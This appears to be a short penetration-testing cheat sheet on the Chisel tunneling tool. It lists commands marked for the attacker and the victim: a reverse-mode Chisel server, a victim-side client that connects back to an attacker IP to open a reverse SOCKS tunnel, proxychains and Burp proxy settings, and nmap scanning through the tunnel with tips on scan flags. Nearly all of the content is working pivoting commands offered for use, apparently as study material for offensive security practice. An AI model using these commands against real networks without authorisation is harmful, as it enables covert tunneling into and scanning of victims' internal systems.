 # Name
Chisel

## Usage
```
#On Attacker:
chisel server -p 8080 --reverse

#Edit /etc/proxychains.conf
socks5 127.0.0.1 1080

#On Victim:
chiselx64.exe client 192.168.45.191:8080 R:socks

#Configure Burp for Web Browsing via Chisel
Proxy Type: SOCKS5
Proxy IP address: 127.0.0.1
Port: 1080

#Proxychains usage
proxychains nmap ..

# Have to use TCP Connect scan (-sT)
# ICMP doesn’t work over proxychains (hence need -Pn)
# vv slow, could instead install & use nmap on the compromised host.
```

## Source
https://github.com/jpillora/chisel/releases/tag/v1.7.6

